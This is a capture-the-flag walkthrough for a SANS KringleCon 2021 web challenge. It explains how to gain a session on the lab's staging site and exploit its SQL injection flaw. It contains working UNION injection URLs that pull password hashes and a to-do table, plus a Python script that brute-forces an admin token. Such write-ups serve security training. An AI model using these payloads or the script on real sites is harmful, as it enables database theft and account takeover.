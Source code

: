 ## Summary
At the top right of the main courtyard, after thawing the Frost Tower door and fixing the Frostivator elevator, go to the top floor, Jack's Office. Enter the left room, called Studio, and talk with Ingreta about the Frost website and download the sourcecode. You will practice sourcecode review and web application hacking.

[Next Challenge](13%20-%20FPGA%20Programming.md)\
[Back to Table of Contents](https://github.com/minispooner/SANS_KringleCon_2021_Walkthrough/blob/main/README.md)

## Steps
1. Review the sourcecode for flaws. If you aren't able to find anything, you can go complete the Python coding challenges (where you move the little elf to collect candies) and after level 8, the elf there will give you a few hints about where the Frost Tower Website is vulnerable.
<details>
  <summary>The Elf's Hint</summary>
  He tells you to review a couple of lib docs - the npm express-session package (https://www.npmjs.com/package/express-session) and the mysqljs/mysql package (https://github.com/mysqljs/mysql).
</details>

2. Exploit the first vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the express-session package. Take a look at how it uses this lib to find developer flaws in session management.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js file assigns the unauthenticated user a session when a certain unauthenticated call is made with certain logic. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/postcontact" method assigns the user a session when certain logic is followed. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Answer</summary>
  Submit the /contact form using some email address. Submit the form again, using the same email address. You now have a session and can navigate to /dashboard to confirm.
</details>

3. Exploit the second vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the mysql package. Take a look at the official docs to identify potential mistake points where developers may accidentally insecurely implement classes/calls.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js "/detail/:id" method is a good place to look.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/detail/:id" method calls the insecure raw() method on the mysql connection to execute a raw query. Try to manipulate the user input to exploit this vulnerability.
</details>

<details>
  <summary>Answer</summary>
  While "/detail/1,1 or 1=1" will successfully return all uniquecontact details, a UNION-based SQL injection will give you all database user password hashes too! You can build this exploit by reviewing the database tables sourcecode.
  https://staging.jackfrosttower.com/detail/1,2,4%20union%20select%20*%20from%20users--
</details>

4. Exploit the second vulnerability...again...
<details>
  <summary>What's this about?...</summary>
  After getting SQL injection and the password hashes, can we login as someone? (I didn't crack any hashes...)
</details>

<details>
  <summary>Hint 1</summary>
  There are some super-protected pages that need special perms on top of a session. Can you figure out how to get in?
</details>

<details>
  <summary>Hint 2</summary>
  Take a look at how the "token" value is used and think about how it can be obtained and used.
</details>

<details>
  <summary>Answer</summary>
  I bruteforced the Super Admin token (mxCamxRUVgBWr3l7uFR8uUbuQcAa496e) and reset their password and logged in as them. Code below. (CHANGE THE SESSION ID IN THE CODE!)

```
import requests, string
ALL = list(string.ascii_letters)
ALL.extend(string.digits)
print(ALL)
FINAL = ''

def test():
    global FINAL
    for injection in ALL:
        url = 'https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20users%20where%20id=1%20and%20token%20like%20%22HERE%25%22--'
        url = url.replace('HERE',FINAL + injection)

        r = requests.get(
            url,
            cookies={"connect.sid": "YOUR SESSION ID"}
        )
        # print(r.status_code)
        # print(r.text)
        if r.status_code!=200:
            FINAL = FINAL + injection
            print("FINAL: ", FINAL)
            if len(FINAL)==32:
                exit('DONE')

for i in range(0,32):
    test()

print('DONE')
```

</details>

<details>
  <summary>Alternative (better) Answer</summary>
  Use comma-less JOINs for arbitrary data SELECTs.
  https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(select%20token%20from%20users%20where%20id%20=1)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
</details>

5. Exploit the second vulnerability...for the final answer!
<details>
  <summary>Hint 1</summary>
  Where could the todo list be? Enumerate the DB tables using the JOINs above.
</details>

<details>
  <summary>Hint 2</summary>
  The DB likely blocks FUNCTION calls and the INFORMATION_SCHEMA.COLUMNS table, so you have to bruteforce/enum the col names manually - or with BurpSuite Intruder!
</details>

<details>
  <summary>Answer</summary>
  Run this through BurpSuite Intruder
 
  /detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(%20SELECT%20§1§%20FROM%20todo)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
  
  And set the inject point to the "1" (already done in example above) in the "select 1 from todo" query. I used this wordlist:
  
  https://github.com/drtychai/wordlists/blob/master/sqlmap/common-columns.txt 
  
  Then I filtered results by length and found the two largest were id and note.
  Answer:
  
  https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(%20SELECT%20note%20FROM%20todo)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
</details>
